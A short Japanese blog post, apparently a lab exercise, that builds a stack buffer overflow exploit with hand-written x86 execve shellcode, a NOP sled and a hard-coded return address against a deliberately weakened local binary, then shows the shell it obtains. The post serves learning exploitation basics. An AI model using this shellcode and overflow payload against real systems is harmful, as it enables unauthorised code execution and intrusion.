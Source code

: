 # シェルコードを試してみる
前回投稿した記事において、BOFやカナリアの排除、実行可能スタックなどの脆弱性があるバイナリ`vuln`に対する攻撃を行っていましたが、その時は`pwntools`が生成するシェルコードを使用していました。次は自身で作成したシェルコードを利用してみたいと思います。

具体的には`alt.exploit.py`を以下のように改造します。
```python
# my_shellcode_exploit.py

from pwn import *
import sys
import struct

def gen_payload_file(payload):
    f = open('payload2', 'wb')
    f.write(payload)
    f.close()

nop_sled = b'\x90' * 146

# 26byte
shellcode = b'\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80'

# 144 byte = 4 * 36
return_addr = struct.pack('I', 0xffffd374) * 36

payload = nop_sled + shellcode + return_addr
sys.stdout.buffer.write(payload)
```
戻りアドレスは適宜変更する必要があります。
実行してみましょう。
```
$ (python3 my_shellcode_exploit.py; cat) | ./vuln
Overflow me : &buff = 0xffffd374
ls
ls
Makefile        exploit.py  my_shellcode_exploit.py  source.c  vuln
alt_exploit.py  hex         orig_exploit.py          test
ls
Makefile        exploit.py  my_shellcode_exploit.py  source.c  vuln
alt_exploit.py  hex         orig_exploit.py          test
whoami
figaro
echo hi
hi
^C
$
```
しっかり動作しているようです。

# 番外編
作成したシェルコードからシェルコードのオペコードとそのバイト数を取り出す簡単なシェルスクリプトを作成しました。(objdumpが必要ですが)

